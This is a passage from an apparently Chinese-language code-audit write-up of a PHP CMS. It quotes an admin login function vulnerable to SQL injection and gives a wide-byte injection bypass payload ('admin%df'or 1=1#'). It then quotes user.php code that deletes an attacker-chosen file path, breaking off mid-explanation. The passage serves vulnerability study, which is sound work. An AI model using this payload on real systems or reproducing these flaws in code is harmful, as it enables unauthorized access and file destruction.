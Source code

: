 `check_admin` :

```php
function check_admin($name, $pwd)
{
	global $db;
	$row = $db->getone("SELECT COUNT(*) AS num FROM ".table('admin')." WHERE admin_name='$name' and pwd = md5('$pwd')");
 	if($row['num'] > 0)
 	{
 		return true;
 	}
 	else
 	{
 		return false;
 	}
}
```

宽字节注入，

```php
admin_name=admin%df'or 1=1#&admin_pwd=sssss&submit=%B5%C7%C2%BC&act=do_login
```

![image-20210217160245502](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/image-20210217160245502.png)

#### 2.7 任意文件删除

![image-20210217161207483](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/image-20210217161207483.png)

`user.php` 792 行。

```php
elseif($act == 'edit_user_info')
```

```php
if (!empty($_POST['face_pic1'])){
        if (strpos($_POST['face_pic1'], 'http://') != false && strpos($_POST['face_pic1'], 'https://') != false){
           showmsg('只支持本站相对路径地址');
         }
        else{
           $face_pic = trim($_POST['face_pic1']);
        }
    }else{
		if(file_exists(BLUE_ROOT.$_POST['face_pic3'])){
			@unlink(BLUE_ROOT.$_POST['face_pic3']);
		}
	}
```

要使得 `face_pic1 ` 为空，

BLUE_ROOT 问当前文件所在路径。
